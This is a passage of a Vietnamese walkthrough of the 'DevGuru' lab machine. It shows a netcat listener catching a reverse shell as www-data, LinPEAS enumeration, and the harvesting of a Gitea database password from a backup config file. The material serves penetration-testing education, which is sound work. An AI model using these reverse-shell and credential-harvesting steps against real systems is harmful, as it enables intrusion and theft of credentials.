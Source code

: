 ![RCE payload](/assets/img/posts/devguru/RCE-payload.PNG)

Save lại và load lại trang `/poc`. Kiểm tra kết nối của listener:

```
$ nc -lnvp 9005
listening on [any] 9005 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.10] 55294
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Privilege Escalation (other user)

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS){:target="\_blank"}

LinPEAS là 1 script đắc lực dùng để scan toàn bộ hệ thống, tìm kiếm các đường dẫn khả thi để leo thang đặc quyển trên Linux/Unix, MacOS.

Chờ 1-2p scan, LinPEAS nó trả cho 1 nùi kết quả. Ngồi phân tích một lúc thì phát hiện 1 file hay ho

```shell
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 frank frank 56688 Nov 19  2020 /var/backups/app.ini.bak
...
```

Khả năng cao đây là file backup của file config gitea. Nếu đúng là nó thì ta có thể khai thác thêm thông tin đăng nhập của gitea DB.

```shell
www-data@devguru:/var/backups$ grep -A 10 -i 'database' app.ini.bak
[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
; For Postgres, schema to use if different from "public". The schema must exist beforehand,
; the user must have creation privileges on it, and the user search path must be set
; to the look into the schema first. e.g.:ALTER USER user SET SEARCH_PATH = schema_name,"$user",public;
...
```